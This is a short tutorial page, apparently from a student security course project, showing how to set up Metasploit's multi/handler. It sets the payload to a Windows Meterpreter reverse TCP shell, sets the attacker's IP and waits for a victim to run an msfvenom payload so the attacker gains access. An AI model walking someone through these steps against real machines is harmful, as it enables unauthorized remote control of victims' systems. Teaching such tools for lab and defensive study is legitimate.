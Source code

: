 # Using Meterpreter

In msfconsole, type **use exploit/multi/handler**, this will handle exploits launched outside of the framework, such as the payload we created using msfvenom.

Set the payload to meterpreter reverse shell **set payload windows/meterpreter/reverse_tcp**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/multihandler.png" width="600">

Set the lhost to the attacker's ip **set lhost [attacker ip]**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/options.png" width="600">

Run the payload by typing **run**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/run.png" width="600">

Now wait for the target to execute the payload created using msfvenom, once it is executed, it should look something like this.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/connected.png" width="600">

Now meterpreter is enabled and we have access to the target system.
